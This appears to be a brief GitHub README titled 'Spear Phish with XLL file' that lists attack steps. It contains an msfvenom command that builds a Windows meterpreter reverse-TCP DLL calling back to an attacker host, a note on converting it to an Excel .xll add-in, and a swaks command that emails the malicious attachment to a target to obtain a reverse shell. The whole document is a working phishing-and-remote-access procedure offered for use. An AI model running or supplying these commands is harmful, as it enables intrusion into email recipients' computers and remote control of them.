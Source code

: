 # Spear Phish with XLL file

## STEPS:

 - msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=MY_IP LPORT=MY_PORT -f dll > pwn.dll (Create a .dll file)

## Then convert that .dll file to .xll with a python script (Will provide the script in this folder)

 - swaks --to TARGET@DOMAIN.LOCAL --from MYSELF@TESTMAIL.COM --header "Subject: WHATEVER" --body "WHATEVER" --attach @pwn.xll --server TARGET_IP --port 25 (Send the malicious file to our target to catch the reverse shell)

 
